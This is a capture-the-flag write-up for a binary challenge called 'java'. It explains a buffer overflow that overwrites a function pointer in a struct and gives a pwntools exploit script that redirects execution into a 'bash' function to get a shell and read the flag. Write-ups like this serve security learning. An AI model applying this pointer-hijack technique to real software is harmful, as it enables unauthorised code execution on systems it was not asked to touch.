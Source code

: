 # Description
Comparing strings in assembly is an hard task for java n00bs.

## Solution
By looking at the source we can see that there's a struct containing a string followed by a function pointer, if we can somehow overflow the string buffer we can jump to an arbitrary location. One interesting destination might be the last line of the `bash` function which happens to have an offset of `0x32` from the start of the function. The user input handling doesn't check string bounds so we can easily overflow the buffer and pop a shell.

```python
from pwn import *

context.binary = "./java"

p = process()
p.sendline(b"java" + b"A" * 28 + p64(context.binary.functions["bash"].address + 0x32))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

## Flag
```plain
flag{this_is_a_flag}
```